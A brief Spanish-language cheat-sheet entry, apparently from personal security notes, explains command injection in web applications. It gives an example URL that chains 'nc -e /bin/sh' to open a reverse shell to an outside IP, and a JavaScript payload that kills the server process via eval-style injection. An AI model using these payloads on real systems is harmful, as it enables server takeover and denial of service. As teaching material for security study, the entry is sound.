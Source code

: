 ```yaml
---
title: command injection
category: web
order: 1
---
```



# 1.0 Command injection
---

  Si la aplicacion ejecuta comandos de sistema en funcion del input de usuario y este no esta sanitizado, se pueden correr comandos en el servidor
  ej:

  ```
  https://vulnerable.io/test.php?id=1 && nc -e /bin/sh 130.10.10.16 4444

  ```

  en javascript si usas
  eval(), setTimeout(), setInterval(), Function() tmb se puede hacer injeccion de js

  ```
  process.kill(process.pid)

  ```
